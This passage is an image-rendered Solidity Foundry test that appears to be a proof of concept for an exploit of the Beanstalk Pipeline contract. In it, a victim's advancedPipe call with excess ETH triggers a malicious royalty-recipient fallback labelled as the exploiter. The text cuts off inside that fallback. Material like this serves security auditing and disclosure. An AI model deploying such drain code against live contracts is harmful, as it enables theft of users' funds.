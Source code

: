 ```solidity

        exploiter1 = makeAddr("exploiter1");
        console.log("exploiter1: ", exploiter1);

        address _pipeline = address(new Pipeline());
        vm.etch(PIPELINE, _pipeline.code);

        vm.label(BEANSTALK, "Beanstalk Diamond");
        vm.label(address(dummyNFT), "DummyNFT");
        vm.label(address(exploiter), "Exploiter");
    }

    function test_attack() public {
        emit log_named_uint("Victim balance before: ", victim.balance);
        emit log_named_uint("BEANSTALK balance before: ", BEANSTALK.balance);
        emit log_named_uint("PIPELINE balance before: ", PIPELINE.balance);
        emit log_named_uint("DummyNFT balance before: ", address(dummyNFT).balance);
        emit log_named_uint("Exploiter balance before: ", address(exploiter).balance);
        emit log_named_uint("Exploiter1 balance before: ", exploiter1.balance);

        vm.startPrank(victim);
        AdvancedPipeCall[] memory pipes = new AdvancedPipeCall[](1);
        pipes[0] = AdvancedPipeCall(address(dummyNFT), abi.encodePacked(dummyNFT.mintNFT.selector), abi.encodePacked(bytes1(0x00), bytes1(0x01), uint256(1 ether)));
        IBeanstalk(BEANSTALK).advancedPipe{value: 10 ether}(pipes, 4 ether);
        vm.stopPrank();

        emit log_named_uint("Victim balance after: ", victim.balance);
        emit log_named_uint("BEANSTALK balance after: ", BEANSTALK.balance);
        emit log_named_uint("PIPELINE balance after: ", PIPELINE.balance);
        emit log_named_uint("DummyNFT balance after: ", address(dummyNFT).balance);
        emit log_named_uint("Exploiter balance after: ", address(exploiter).balance);
        emit log_named_uint("Exploiter1 balance after: ", exploiter1.balance);
    }
}

contract DummyNFT {
    address immutable i_royaltyRecipient;
    constructor(address royaltyRecipient) {
        i_royaltyRecipient = royaltyRecipient;
    }

    function mintNFT() external payable returns (bool success) {
        // imaginary mint/transfer logic
        console.log("minting/transferring NFT");
        // console.log("msg.value: ", msg.value);

        // send royalties
        uint256 value = msg.value / 10;
        console.log("sending royalties");
        (success, ) = payable(i_royaltyRecipient).call{value: value}("");
    }
}

contract RoyaltyRecipient {
    bool exploited;
    address constant exploiter1 = 0xDE47CfF686C37d501AF50c705a81a48E16606F08;

    fallback() external payable {
        console.log("entered exploiter fallback");
        console.log("Beanstalk balance: ", BEANSTALK.balance);
        console.log("Pipeline balance: ", PIPELINE.balance);
        console.log("Exploiter balance: ", address(this).balance);
```
